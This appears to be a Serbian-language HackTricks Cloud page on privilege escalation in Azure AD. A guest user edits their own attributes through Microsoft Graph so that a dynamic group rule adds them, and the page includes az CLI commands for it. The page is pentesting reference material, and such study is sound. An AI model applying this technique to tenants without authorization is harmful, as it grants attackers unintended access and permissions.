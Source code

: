 # Az - Dinamičke Grupe Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Osnovne Informacije

**Dinamičke grupe** su grupe koje imaju set **pravila** konfigurisanih i svi **korisnici ili uređaji** koji se poklapaju sa pravilima se dodaju u grupu. Svaki put kada se **atribut** korisnika ili uređaja **promeni**, dinamička pravila se **ponovo proveravaju**. A kada se **novo pravilo** **kreira**, svi uređaji i korisnici se **proveravaju**.

Dinamičke grupe mogu imati **Azure RBAC uloge dodeljene** njima, ali **nije moguće** dodati **AzureAD uloge** dinamičkim grupama.

Ova funkcija zahteva Azure AD premium P1 licencu.

## Privesc

Imajte na umu da po defaultu bilo koji korisnik može pozvati goste u Azure AD, tako da, ako dinamička grupa **pravilo** daje **dozvole** korisnicima na osnovu **atributa** koji se mogu **postaviti** u novom **gostu**, moguće je **kreirati gosta** sa ovim atributima i **escalate privileges**. Takođe je moguće da gost upravlja svojim profilom i menja ove atribute.

Dobijte grupe koje omogućavaju dinamičko članstvo: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Primer

* **Primer pravila**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Opis pravila**: Bilo koji gost korisnik sa sekundarnim emailom koji sadrži string 'security' biće dodat u grupu

Za email gosta, prihvatite pozivnicu i proverite trenutne postavke **tog korisnika** na [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Nažalost, stranica ne dozvoljava modifikaciju vrednosti atributa, tako da moramo koristiti API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Reference

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
